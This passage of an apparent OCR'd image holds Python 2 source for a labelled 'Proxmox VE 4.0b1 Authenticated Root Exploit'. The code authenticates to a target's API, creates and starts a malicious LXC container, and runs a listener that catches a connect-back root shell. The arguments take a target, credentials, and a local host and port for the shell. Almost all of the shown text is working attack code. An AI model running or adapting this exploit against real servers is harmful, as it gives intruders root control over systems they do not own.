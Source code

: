                                            "cpulimit": 1,
                                           "cpuunits": 1024,
                                           "net0":"name=eth0"})
            if createvm.status_code == 200:
                response = createvm.json()
                if "success" in response and response["success"]:
                    print "[+] Container Created... (Sleeping 20 seconds)"
                    sleep(20)
                    print "[+] Starting container..."
                    startcontainer = requests.post("https://%s/api2/extjs/nodes/%s/lxc/%s/status/start" % (target, hostname, vmid), verify=False, headers={"CSRFPreventionToken": csrfticket}, cookies={"PVEAuthCookie": ticket})
                    if startcontainer.status_code == 200:
                        response = startcontainer.json()
                        if "success" in response and response["success"]:
                            print "[+] Exploit should be working..."
                        else:
                            print "[!] Can't start container ! Try to start it manually."
                else:
                    print "[!] Error creating container..."
                    print response
            else:
                print "[!] Error creating Container. Bad HTTP Status code : %d" % createvm.status_code
        else:
            print "[!] Authentication failed - Check the credentials..."

    def handler(lport):
        print "[~] Starting handler on port %d" % lport
        t = telnetlib.Telnet()
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.bind(("0.0.0.0", lport))
        s.listen(1)
        conn, addr = s.accept()

        print "[+] Connection from %s" % addr[0]

        t.sock = conn

        print "[+] Pop the shell ! :)"

        t.interact()

    if __name__ == "__main__":
        print "[~] Proxmox VE 4.0b1 Authenticated Root Exploit - Nicolas Chatelain\n"

        parser = argparse.ArgumentParser()
        parser.add_argument("--target", required=True, help="The target host (eg : 10.0.0.1:8006)")

        parser.add_argument("--username", required=True)
        parser.add_argument("--password", required=True)

        parser.add_argument("--localhost", required=True, help="Local host IP for the connect-back shell.")
        parser.add_argument("--localport", required=True, type=int, help="Local port for local bind handler")

        parser.add_argument("--vmid", required=False, default="999", type=int, help="A unique ID for the container, exploit will fail if the ID already exists.")
